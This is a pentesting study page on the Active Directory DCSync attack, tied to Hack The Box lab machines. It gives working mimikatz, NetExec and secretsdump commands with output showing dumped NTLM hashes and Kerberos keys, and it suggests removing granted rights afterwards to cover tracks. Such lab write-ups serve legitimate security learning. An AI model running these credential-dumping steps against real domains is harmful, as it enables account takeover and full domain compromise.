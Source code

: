 ```yaml
---
description: >-
  An one-liner late-phase attack aiming on full domain compromise. Can be
  perfomed after owning an domain account which has DCSync rights.
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## Concept

{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}

<div align="left">

<figure><img src="../../.gitbook/assets/dcsync_attack.png" alt=""><figcaption></figcaption></figure>

</div>

DCSync is a technique for stealing the Active Directory password database (`ntds.dit`) by using the built-in **Directory Replication Service Remote** protocol, which is used by Domain Controllers (DCs) to replicate domain data. This allows an attacker to **mimic a DC and retrieve users' NTLM password hashes**. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

> _Domain/Enterprise Admins and default Domain Administrators have these rights by default._

<figure><img src="../../.gitbook/assets/dc_sync_rights.png" alt=""><figcaption><p>Firure 1: DCSync rights (image taken from the article linked below).</p></figcaption></figure>

## Tools

{% hint style="info" %}
If we have `WriteDacl`rights over an account, we can assign DCSync rights to it, execute the DCSync attack, and then remove them to attempt to cover our tracks. An example of this can be seen in the [privilege escalation part of the Forest box](../../boxes/easy/forest.md#privilege-escalation). In the examples below, we assume that the user `hacker`has DCSync rights.
{% endhint %}

### Windows

The DCSync attack can be performed with [`mimikatz`](https://github.com/ParrotSec/mimikatz), but we must target a specific user and it must be ran in the context of the user who has DCSync privileges. The latter can be achieved with [Runas](https://github.com/antonioCoco/RunasCs):

```sh
# start a powershell session in the context of hacker
>runas /netonly /user:HTB\hacker powershell
Enter the password for HTB\hacker:
Attempting to start powershell as user "HTB\hacker" ...
```

Now we can perform the attack from the spawned PowerShell:

```powershell
> .\mimikatz.exe
 
mimikatz # privilege::debug
Privilege '20' OK
 
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
[DC] 'HTB.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.HTB.LOCAL' will be the DC server
[DC] 'HTB\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
 
Object RDN           : Administrator
 
** SAM ACCOUNT **
 
SAM Username         : administrator
User Principal Name  : administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500
 
Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf
 
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
 
<SNIP>
```

### Linux

We can use [NetExec](https://github.com/Pennyw0rth/NetExec) to dump the whole `ntds.dit` database or the hash of a specified user:

{% hint style="info" %}
NXC uses [secretsdump's methods](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) to dump `ntds.dit`.
{% endhint %}

```bash
# dumping the administrator hash
$ nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\hacker:h@ck3r!
SMB         10.10.10.161    445    FOREST           [-] Account not found in the BloodHound database.
SMB         10.10.10.161    445    FOREST           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.10.10.161    445    FOREST           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.10.161    445    FOREST           htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
SMB         10.10.10.161    445    FOREST           [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds of which 1 were added to the database
SMB         10.10.10.161    445    FOREST           [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.10.10.161    445    FOREST           [*] cat /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.10.161    445    FOREST           [*] grep -iv disabled /home/kali/.nxc/logs/FOREST_10.10.10.161_2024-03-22_110253.ntds | cut -d ':' -f1
```

Impacket's [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) can be also used directly.&#x20;

```bash
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

## Practice

* [Forest (Easy)](../../boxes/easy/forest.md)
* [Sauna (Easy)](../../boxes/easy/sauna.md)

